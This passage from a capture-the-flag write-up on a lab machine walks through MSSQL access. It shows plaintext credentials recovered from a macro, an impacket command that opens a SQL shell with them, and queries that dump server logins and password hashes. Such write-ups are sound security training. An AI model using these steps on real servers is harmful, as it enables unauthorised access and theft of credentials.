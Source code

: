 ![olevba](../.res/2022-09-22-06-03-54.png)  
`conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"`

## MS-SQL Server

- We can connect with mssqlclient.py from impacket
- *Note: I was struggling with the impacket command turns out that in order to work the password neeeds to have not double quotes or no quotes BUT single quotes (seems to be because of the dollar sign in the pass)*
- `python3 /opt/impacket/examples/mssqlclient.py QUERIER/reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth`
- We get a shell this way
- Here is an [interesting article from hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#manual) for mssql
- We can list the tables `select * from volume.INFORMATION_SCHEMA.TABLES;`  
![list tables](../.res/2022-09-22-08-37-01.png)  
- We can list users `select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;`  